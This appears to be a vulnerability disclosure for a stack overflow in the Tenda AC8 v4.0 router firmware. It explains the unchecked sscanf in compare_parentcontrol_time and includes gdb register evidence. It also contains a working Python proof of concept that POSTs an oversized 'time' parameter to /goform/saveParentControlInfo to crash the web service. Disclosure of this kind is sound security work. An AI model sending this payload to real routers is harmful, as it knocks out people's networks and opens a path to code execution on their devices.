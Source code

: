 # Tenda Router Vulnerability on compare_parentcontrol_time function
> vendor:Tenda
>
> product:AC8
>
> version:v4.0 V16.03.34.06
>
> type:Stack Overflow  

# Overview 
- Firmware download website: https://www.tenda.com.cn/download/detail-3518.html
## Vulnerability Description

Tenda AC8V4.0 V16.03.34.06 were discovered to contain a stack overflow via the `time` parameter in the `compare_parentcontrol_time` function.

## Vulnerability Details

In function  `compare_parentcontrol_time`  line 25, it reads in a user-provided parameter `time`.Line 48, the variable is passed to the `sscanf` function without any length check, which may overflow the stack-based buffer `local_2c` and `local_4c`. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.
![line 25](images/100127.png)
![line 48](images/101152.png)

## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```python
import requests
host = '192.168.1.100'
port = 80
url = f'http://{host}:{port}/goform/saveParentControlInfo'

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

data = {
    'powerSavingEn': 'aaaaa',
    'time': 'ntrolInfoHTTP/1.1Host8.1.1.0:81Content-aafasdfasdfdfsaf'
}
response = requests.post(url, headers=headers, data=data)
```

![python-poc-crash](images/crash1.png)

![httpd-segmentfault](images/crash2.png)


## gdb registers change
After executing the `sscanf` function, the `ra` register was modified, causing the return address of the function to be incorrect, as shown in the figure below.
![registers1](images/ra1.png)
![registers2](images/ra2.png)
